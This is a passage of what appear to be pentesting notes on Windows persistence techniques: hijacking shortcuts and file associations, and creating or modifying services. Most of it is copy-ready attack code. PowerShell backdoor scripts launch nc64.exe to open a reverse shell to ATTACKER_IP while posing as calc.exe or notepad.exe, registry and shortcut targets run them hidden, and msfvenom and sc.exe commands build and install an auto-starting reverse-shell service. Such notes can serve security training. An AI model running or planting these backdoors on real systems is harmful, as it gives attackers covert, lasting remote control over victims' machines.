 Example `backdoor.ps1` script:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP ATTACKER_PORT"
C:\Windows\System32\calc.exe # Imitating calc.exe
```

Target of shorcut file:
```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

### Hijacking File Associations
The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Every file type has its own `Programmatic ID` (`ProgID`), for example `.txt` is `txtfile`. Application handling `ProgID == txtfile` can be found at `HKLM\Software\Classes\txtfile\shell\open\command`. Attacker may established persistance by placing in this registry backdoor file.

Example `backdoor.ps1` script:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP ATTACKER_PORT"
C:\Windows\system32\NOTEPAD.EXE $args[0] # Imitating notepad.exe, passing original file to it
```

Registry value:
```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1 %1
```

## Abusing Services
### Creating Backdoor Services
Creating malicious service may allow attacker to establish persistance.

Create malicious service executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

```
sc.exe create BackdoorService binPath= "C:\windows\revshell-svc.exe" start= auto
sc.exe start BackdoorService
```

### Modifying existing services
Modification of old services may allow attacker to establish persistance.

List of available services
```
sc.exe query state=all
```

Query the service's configuration:
```
sc.exe qc <service_name>
```
